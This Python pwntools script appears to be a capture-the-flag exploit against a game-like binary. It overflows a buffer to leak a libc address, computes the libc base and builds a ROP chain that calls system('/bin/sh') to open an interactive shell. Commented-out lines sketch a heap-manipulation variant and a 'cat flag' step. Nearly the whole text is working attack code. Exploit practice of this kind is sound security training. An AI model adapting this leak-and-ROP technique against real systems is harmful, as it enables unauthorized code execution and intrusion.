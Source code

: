 ```python

def show():
    cho(4)

def train():
    cho(2)

# add(5, 0x600, b'555')
# add(0, 0x77, b'1' * 0x70 + p64(0xa0))
# rm(5)
# add(5, 0x5e0, b'555')
# add(6, 0x600, b'666')

while True:
    try:
        io = start()

        payload1 = b'a' * 259 + b'\x17' + b'\x1a' + b'\x19' 
        fight(payload1) 

        # show()
        io.recvuntil(b'[Attack]: ')
        libc_leak = int(io.recvuntil(b'\n'))
        log.info(f'libc leak: {hex(libc_leak)}')
        libc_base = libc_leak - (0x7c8358404643 - 0x7c8358200000)
        log.info(f'libc base: {hex(libc_base)}')

        # for i in range(8): # 头部写成 0xa1
        #     train()

        pop_rdi = libc_base + 0x000000000010f75b
        retn = pop_rdi + 1
        system_addr = libc_base + libc.symbols['system']
        binsh_addr = libc_base + next(libc.search(b'/bin/sh')) 

        ropchain = p64(retn) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
        payload2 = b'a' * 259 + b'\x17' + ropchain
        fight(payload2) 

        io.interactive()
        

    except EOFError:
        io.close()
    


# payload2 = b'a' * 0x28
# payload2 += p64(retn) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

# add(9, 0x10, b'999') # 申回构造堆并修改
# rm(9)
# add(9, 0x90, payload2)

# cho(1145)

# io.sendline(b'cat flag')

##################################################################


# io.interactive()
```